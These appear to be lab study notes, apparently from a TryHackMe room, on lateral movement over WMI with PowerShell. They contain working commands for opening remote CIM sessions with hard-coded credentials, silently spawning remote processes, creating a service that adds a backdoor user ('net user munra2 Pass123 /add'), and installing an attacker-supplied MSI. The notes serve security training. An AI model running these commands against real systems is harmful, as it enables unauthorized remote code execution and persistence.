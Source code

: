 # Windows Management Instrumentation
 WMI exposes a wide range of information about the system, including hardware components, operating system settings, installed software, and more. It allows administrators and developers to query and manipulate this information programmatically using scripting languages like PowerShell.  
 - Monitor system resources, such as CPU, memory, disk space, and network activity
 - Administrators can use WMI to retrieve and modify system configuration settings
 - WMI supports remote administration, enabling administrators to manage and monitor remote computers in a network

 ## Connecting to WMI from PowerShell
 - Create a PSCredential object with user and password
 - Object will be stored in the `$credential` variable

`$username = 'Administrator';`  
`$password = 'Mypass123';`  
`$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`  
`$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`

Establish a WMI session using either of the following protocols:
#### DCOM
- RPC over ip will be used for connecting to WMI
- Port 135/TCP and ports 49152-65535/TCP

#### Wsman
- WinRM will be used for connecting to WMI
- Port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Establish a WMI session from PowerShell, we can use the following commands and store the session of `$Session` variable:

`$Opt = New-CimSessionOption -Protocol DCOM`  
`$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`  

- `New-CimSessionOption` cmdlet is used to configure the connection options for WMI session + connection protocol
- Options and credentials are password to `New-CimSession` cmdlet to establish a session against a remote host

## Remote Process Creation using WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Spawn a process from PowerShell by utilizing WMI + send a WMI request to Win32_Process class to spawn the process under the session we created before:

`$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";`

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command}`

- WMI will not allow you to see the ouput of any command but will create the required process silently

## Creating Services Remotely with WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Membership: 
- Admin  

Plan:
- Create service with WMI via PowerShell
- Create a service called THMService2

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{`  
`Name = "THMService2";`  
`DisplayName = "THMService2";`  
`PathName = "net user munra2 Pass123 /add"; # Your payload`  
`ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process`  
`StartMode = "Manual"`
`}`

- Find and start service  

`$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"`  

`Invoke-CimMethod -InputObject $Service -MethodName StartService`  

- Stop/Delete the service

`Invoke-CimMethod -InputObject $Service -MethodName StopService`  

`Invoke-CimMethod -InputObject $Service -MethodName Delete`

## Installing MSI Packages via WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Membership:
- Admin 

Plan:
- MSI is a file format used for installers
- If we can copy an MSI package to the target system, we can use WMI to install it
- File can be copied any way available to the attacker
- Once the MSI file is on the target system, we can install by invoking the Win32_Product class via WMI

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`